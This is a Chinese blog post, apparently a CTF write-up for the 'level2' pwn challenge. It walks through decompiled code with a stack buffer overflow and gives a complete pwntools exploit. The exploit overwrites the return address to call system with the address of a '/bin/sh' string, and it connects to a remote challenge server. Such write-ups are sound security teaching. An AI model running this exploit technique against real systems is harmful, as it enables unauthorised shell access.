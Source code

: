 ```yaml
---
layout: post
title:  level2
date:   2020-08-19 00:01:01 +0300
image:  2020-08-19-woman.jpg
tags:   [ctf,Pwn,攻防世界]
---
```


先运行一波

![]({{site.baseurl}}/img/2020-08-19-run.jpg)

ida打开文件，进入主函数，查看代码

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

要求我们输入的函数应该是vulnerable_function(),进入函数查看代码

```assembly
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u);
}
```

查找字符串发现没有system("/bin/sh")函数，只有"/bin/sh"字符串

所以可以进入到system函数之后，构造system函数的栈帧，system里面的参数的地址写"/bin/sh"的地址

exp

```assembly
from pwn import *

io = remote("220.249.52.133",37826)
payload = "A"*(0x88 + 4) + p32(0x08048320) + p32(0xdeadbeef) + p32(0x0804A024)
#io.sendlineafter("Input:\n", payload)
io.sendline(payload)
io.interactive()

```

![]({{site.baseurl}}/img/2020-08-19-result.jpg)